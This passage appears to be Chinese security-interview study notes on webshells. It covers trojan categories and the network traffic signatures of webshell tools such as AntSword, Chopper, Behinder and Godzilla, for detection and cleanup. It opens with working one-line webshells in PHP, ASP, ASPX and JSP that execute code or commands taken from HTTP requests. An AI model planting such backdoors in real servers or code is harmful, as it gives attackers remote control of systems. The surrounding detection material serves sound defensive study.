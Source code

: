```bash
php ：<?php @eval($_POST[value]); ?>
asp ：<%eval request ("value")%> 或 <% execute(request("value")) %>  
aspx：<%@ Page Language="Jscript" %> <% eval(Request.Item["value"]) %>
jsp :<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```

### 4.木马分类

大马，小马，一句话木马，图片马，内存马，无文件马

### 5.上传大马后访问乱码时，有哪些解决办法？

浏览器中改编码

### 6.冰蝎.哥斯拉这些工具有没有了解过吗？他们有哪些明显流量特征(重点)

经过webshell传输加密过的数据包，比正常数据包长度长

蚁剑：

（1）每个请求体都由以下数据开始@ini_set("display_errors", "0");@set_time_limit(0); 

（2）响应包，都是明文

菜刀：

（1）菜刀伪造User-Agent为爬虫文件

（2）请求体中存在QGl开头固定字符

```bash
QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J
```

冰蝎：

（1）特征字段：Accept: application/json, text/javascript, */*; q=0.01

哥斯拉：

（1）cookie处为PHPSESSID=k162v3u8q6fmbhgbgv2lvtdvs1;结尾处有一个； 正常请求cookie结尾是没有分号

（2）数据包长度达万个

（3）请求包Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
 响应包Cache-Control: no-store, no-cache, must-revalidate, 

（4） 编码连接特征 eval base64decode开头

### 7.手动查杀病毒流程？

![img](https://image.201068.xyz/assets/0.3.第二阶段面试题/clip_image004.jpg)

### 8.查杀病毒可以使用的工具有哪些？

Windows ： 火绒 .D盾（http://www.d99net.net）
